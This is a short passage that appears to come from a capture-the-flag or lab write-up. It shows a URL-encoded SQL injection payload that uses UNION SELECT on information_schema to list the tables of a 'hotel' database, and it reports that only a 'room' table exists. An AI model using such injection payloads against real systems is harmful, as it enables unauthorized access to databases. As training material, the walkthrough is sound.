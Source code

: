 ![](./IMG/36.png)

> Check the tables in hotel.

```
100%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7%20From%20information_schema.tables%20WHERE%20table_schema=%27hotel%27;--%20-
```
> As follow image, there is only 1 table

- room